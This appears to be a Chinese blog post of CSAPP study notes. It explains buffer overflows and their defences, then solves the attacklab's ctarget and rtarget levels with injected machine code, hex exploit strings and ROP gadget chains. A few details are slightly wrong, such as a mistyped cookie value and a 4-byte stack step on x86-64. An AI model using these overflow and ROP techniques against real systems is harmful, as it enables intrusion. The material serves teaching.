




代码[在此](https://github.com/zianglei/csapp-labs)

## 常见的攻击方式

### 缓存区溢出

由于C不对数组边界进行检查，当在栈上为数组分配空间时，如果写入的数据超过了数组空间，就会覆盖栈中存储的状态信息。通常使用字符串缓存区溢出来实现。

```c
char *gets(char* s) {
	int c;
  char *dest = s;
  // 没有对边界进行检查
  while ((c = getchar()) != '\n' && c != EOF)
    *dest++ = c;
  if (c == EOF && dest == s)
    	return NULL;
  *dest++ = '\0';
  return s;
}
```

生成的汇编代码如下

```assem
echo:
	subq $24, %rsp
	movq %rsp, %rdi
	call gets
	movq %rsp, %rdi
	call puts
	addq $24, %rsp
	ret
```

根据汇编代码可以看出，函数分配了24字节的栈空间，因此如果写入的字符串超过了24个字符，那么栈中的返回地址就会被覆盖；如果超过了32字节（24+8），那么调用者中保存的状态也会被覆盖。（栈中保存的数据格式参考[这里](https://lza852.com/posts/2021-08-17-csapp-2/#%E6%A0%88%E5%B8%A7)）

#### 攻击形式

可以在溢出的字符串中包含指向特定可执行代码的指针，用来覆盖返回地址，那么就可以在函数结束后跳转到指定的函数执行。

#### 对抗方法

1. 栈随机化

   由于需要在插入的字符串中包含指向代码的指针，那么我们可以让程序在每次运行时候地址随机化，每次都在不同的栈地址运行。实现的方法是在程序开始时在栈上随机分配0～n字节的空间，范围n要足够大，保证足够多的栈地址变化，但是又要足够小，不至于浪费太多的地址空间。

   在Linux中栈随机化被标准化并扩充为ASLR（地址空间布局随机化）。

   但是攻击者可以在实际的攻击代码之前加上足够多的nop指令，这样PC指向那么多的nop指令中的任意一个，都可以“滑”到实际的攻击代码。这种操作叫做"nop sled"（空操作雪橇）。

2. 栈破坏检测

   “栈保护者”机制可以检测缓存区越界，思想是在栈帧中任何局部缓冲区与栈状态之间存储一个特殊的“金丝雀”值，这个值是在每次运行时随机产生的，在恢复寄存器和从函数返回之前，程序检查这个值是否被改变了，如果是则程序会异常终止。

   可以在gcc中指定-fno-stack-protector阻止生成栈保护代码

3. 限制可执行代码区域

   由于内存在逻辑上以页的形式划分，因此我们可以只指定编译器生成的代码所在内存页为可执行区域，而其他页没有可执行权限，从而禁止跳转代码执行。但是在有些类型的程序中，要求动态产生和执行代码，例如JIT（just-in-time）即时编译技术，所以是否限制，取决于语言和操作系统

## attacklab

注意在运行 ctarget 的时候要带上 `-q` 参数，禁止上传成绩，否则程序会检测运行环境，只能在指定的教学机上运行

### ctarget

#### level 1

> 使用缓存区溢出使得getbuf返回时调用touch1函数

当函数 P 调用函数 Q 的时候（call指令），%rsp-=4，然后将 P 中调用函数 Q 的下一个指令地址作为返回地址放到%rsp所指的位置。

```c
void test()
{
  	int val;
  	val = getbuf();
    printf("No exploit.  Getbuf returned 0x%x\n", val);
}
```

根据汇编代码分析，getbuf 会调用 Gets 函数，getbuf 开辟的栈空间是 40 字节，输入得到的字符串从栈顶位置开始存储。因此我们可以输入一个长度为 40 的任意字符串，并在字符串之后附上 touch1 的函数地址，从而覆盖 getbuf 的返回地址。注意在 ubuntu 上，是小端模式。

touch1 的函数地址是 0x4017c0，因此我们跟在字符串的值应该是 c0174000，由于有些值不能对应于可见的 ascii 字符，因此 lab 提供了 hex2raw 可以转换成 ascii 字符串

#### level 2

> 使用缓存区溢出使得 getbuf 返回时调用 touch2 函数，touch2 函数需要传入一个参数，该参数必须与 cookie 值相同

touch2 函数的逻辑

```c
void touch2(unsigned val)
{
  vlevel = 2;       /*Part of validation protocol*/
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```

由于 touch2 是通过 %rdi 来获取 val 值，我们不能简单覆盖掉 getbuf 的返回地址就结束，而是插入一小段代码，设置 %rdi 寄存器的值为 cookie 值，当前的 cookie 值是 0x59b997fa。

因此我们输入的字符串首先要能覆盖掉 getbuf 的返回地址，但是该返回地址应该是我们插入的代码的起始地址，然后会继续执行我们自己的代码。由于规定不能使用 jmp 和 call 指令，只能使用 ret 指令，我们需要想办法在执行完自己的代码之后让 pc 跳到 touch2 函数。

ret 会将栈顶的值，即 %rsp 指向的值作为函数返回地址，因此我们需要在自己的代码中存放touch2 的地址，并通过代码设置 %rsp 指向存放地址的位置。

栈覆盖之后的结构如图所示



因此我们的自定义“攻击代码”如下

```assembly
mov $0x59b997a, %rdi; 设置rdi寄存器为cookie值
sub $0x10, %rsp; 由于在弹出getbuf返回地址后，%rsp指向返回地址的上一个地址，因此要移动rsp指向touch2函数地址，从而让后续的ret能够弹出touch2函数地址
ret
```

经过 gcc 翻译成机器码为

```assembly
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	48 83 ec 10          	sub    $0x10,%rsp
   b:	c3                   	retq   
```

代码总长为 12 字节，加上 touch2 函数地址 8 字节，总共是 20（0x14）字节。

在刚进入 getbuf 函数时，通过 gdb 得到 %rsp 为 0x5561dca0，即存放 getbuf 函数的返回地址的位置是 0x5561dca0，那么我们的代码区起始地址应该是 0x5561dca0-0x14=0x5561dc8c，则为了跳转到代码区，getbuf 返回地址应该设置为 0x5561dc8c。注意 ubuntu 为小端系统，且返回地址为 8 字节。

因此整个字符串为

20 个任意字符 + “48 c7 c7 fa 97 b9 59 48 83 ec 10 c3 ” + “ec 17 40 00 00 00 00 00” + “8c dc 61 55 00 00 00 00”

整个执行流程为：

1. getbuf 函数写入字符串，将原本的返回地址覆盖，变成 0x5561dc8c
2. getbuf 函数返回，%rsp=0x5561dca0，执行 ret 指令，%rip=0x5561dc8c，%rsp += 8，等于 0x5561dca8
3. 执行自定义的指令，设置 %rdi 寄存器，并将 %rsp-0x10=0x5561dc98，执行 ret指令，弹出 touch2 函数地址，跳转到 touch2 函数

此种方法只适用于关闭栈随机化的情况，如果开启栈随机化，每次 %rsp 的值是不确定的，我们就无法得知代码区的实际位置，也就无法向 getbuf 返回地址处写入代码区的地址。

#### level 3

> 使用缓存区溢出覆盖 getbuf 的返回地址，使其返回时调用 touch3，touch3 函数需要传入一个字符串参数

根据文档的说明，touch3 会调用 hexmatch，而 hexmatch 会在内部的 buffer 中随机选择起始位置生成测试字符串

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char* sval)
{
  char cbuf[110];
  /*Make position of check string unpredictable*/
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}

```

和 phase 2 一样的布局，嵌入代码设置 %rdi 为字符串的地址

```assembly
mov addr, %rdi; 设置rdi寄存器为cookie值
sub $0x10, %rsp; 由于在弹出getbuf返回地址后，%rsp指向返回地址的上一个地址，因此要移动rsp指向touch2函数地址，从而让后续的ret能够弹出touch2函数地址
ret
```

注意由于 touch3 会调用 hexmatch，而这两个函数均会移动 %rsp 指针，因此如果按照 phase 2 的做法将字符串紧挨代码区放置，因为 hexmatch 会 %rsp-0x80，而移动后栈中的数据就会被覆盖，我们的字符串内容也会被覆盖，因此我们需要从getbuf返回地址向上追加字符串。

所以 addr = getbuf 返回地址+8 = 0x5561dca0 + 8 = 0x5561dca8。字符串构成为

20 个任意字符+ 代码区 + touch3 函数地址 + 代码区起始地址 + cookie 对应的字符串

### rtarget

rtarget 和 ctarget 的区别是 rtarget 采用了栈随机化，并且禁止了在栈上执行代码，因此我们需要利用 rop 技术（return-oriented programming）绕过这两个限制，就是利用原程序现有的代码，组合成我们想要执行的程序。



rop 技术在栈中填充了多个代码片段的地址，每个代码片段被称为gadget。这些片段的特点是都以0xc3（ret指令）结尾，这样我们就可以依次执行gadget1、gadget2 ... gadget n这些片段。

rtarget 的任务就是利用 rop 技术实现 ctarget 中的 level 2 和 level 3 功能，即执行 touch 2 和 target 3

#### level 2

为了实现跳转到 touch2 并传参，我们需要和 ctarget 一样，覆盖原本的返回地址为 gadget 1 地址，然后设置 %rdi 寄存器为 cookie 值。由于 farm 中没有提供直接将立即数赋给寄存器的指令，因此我们需要在栈中先写入 cookie 值，然后使用 pop 指令弹出。

所以整个栈的结构是



gadget 1 指令为 `popq %rax`， 将 cookie 值弹出放入到寄存器 %rax 中，然后 gadget 2 指令为 `mov %rax %rdi`。

根据文档附录给的指令表格，在 rtarget 反汇编中搜索相关指令，找到 gadget 1 指令地址为 0x4019ab，gadget 2 指令地址为 0x4019a2。

因此字符串的组成为

40个任意字符 + "ab 19 40 00 00 00 00 00 " + "fa 97 b9 59 00 00 00 00" + "a2 19 40 00 00 00 00 00" + "ec 17 40 00 00 00 00 00"

#### level 3

level 3 在文档中属于附属得分，和 level 2 一样，只不过 cookie 值换成字符串的首地址。

由于 farm 里只给了 movq、movl、popq 部分指令的形式，没有 pushq 相关指令，因此我们只能在栈中先设置好 cookie 值和 touch3 函数地址的位置，然后想办法将 %rdi 指向 cookie 值所在的位置。

根据 ctarget 的 level 3 可知，cookie 值必须在 touch 3 函数地址的上方，这样才不会被覆盖。但是这样做很难将 %rdi 指向 cookie 值所在位置，绕不过 touch 3 函数地址。

<strong>而在 farm 原本的程序中，我们发现有一条完整的 lea 指令</strong>，即 ` %rax = %rdi + %rsi `，因此我们可以借助这条指令最终将 %rdi 赋值为 base + offset 的形式，指向 cookie 所在位置 

根据 farm 提供的 gadget，整个栈的结构如图所示



在执行 movq %rsp %rax 指令时，%rsp 指向的位置就是 base address，因此 offset 为 72，最后根据栈的指令设置相应字符串即可。

